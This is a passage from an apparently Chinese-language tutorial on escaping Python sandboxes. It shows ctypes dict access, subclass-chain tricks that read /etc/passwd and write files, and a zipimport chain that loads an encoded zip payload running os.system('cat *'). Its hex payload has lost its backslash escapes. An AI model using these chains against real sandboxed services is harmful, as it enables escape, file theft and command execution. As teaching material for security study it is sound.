 cpython

```
from ctypes import pythonapi,POINTER,py_object

_get_dict = pythonapi._PyObject_GetDictPtr
_get_dict.restype = POINTER(py_object)
_get_dict.argtypes = [py_object]

del pythonapi,POINTER,py_object

def get_dict(ob):
    return _get_dict(ob).contents.value
```

#### 

## trick3: 调用file函数读写文件

```
().__class__.__mro__[-1].__subclasses__()[40]("/etc/passwd").read() //调用file子类
().__class__.__mro__[-1].__subclasses__()[40]('/tmp/1').write("11") //写文件
```

#### <a class="reference-link" name="trick4:%20zipimport.zipimporter"></a>trick4: zipimport.zipimporter

```
55  &lt;type 'zipimport.zipimporter'&gt;
```

我们查看zipimport的帮助手册，发现有个load_module函数，可以导入相关文件到内存中

```
|  load_module(...)
     |      load_module(fullname) -&gt; module.
     |      
     |      Load the module specified by 'fullname'. 'fullname' must be the
     |      fully qualified (dotted) module name. It returns the imported
     |      module, or raises ZipImportError if it wasn't found.
```

于是我们可以先制作一个包含payload的zip文件:

```
import os
print os.system('cat *')
```

利用file函数写入zip到`/tmp/`目录下，然后再调用zipimport.zipimporter导入zip文件中的内容到内存,构造利用链如下:

```
v = ().__class__.__mro__[-1].__subclasses__()
a = "x50x4bx03x04x14x03x00x00x08x00xcexadxa4x42x5ex13x60xd0x22x00x00x00x23x00x00x00x04x00x00x00x7ax2ex70x79xcbxccx2dxc8x2fx2ax51xc8x2fxe6x2ax28xcaxccx03x31xf4x8ax2bx8bx4bx52x73x35xd4x93x13x4bx14xb4xd4x35xb9x00x50x4bx01x02x3fx03x14x03x00x00x08x00xcexadxa4x42x5ex13x60xd0x22x00x00x00x23x00x00x00x04x00x00x00x00x00x00x00x00x00x20x80xa4x81x00x00x00x00x7ax2ex70x79x50x4bx05x06x00x00x00x00x01x00x01x00x32x00x00x00x44x00x00x00x00x00"
v[40]('/tmp/z','wb').write(a)
v[55]('/tmp/z').load_module('z')
```
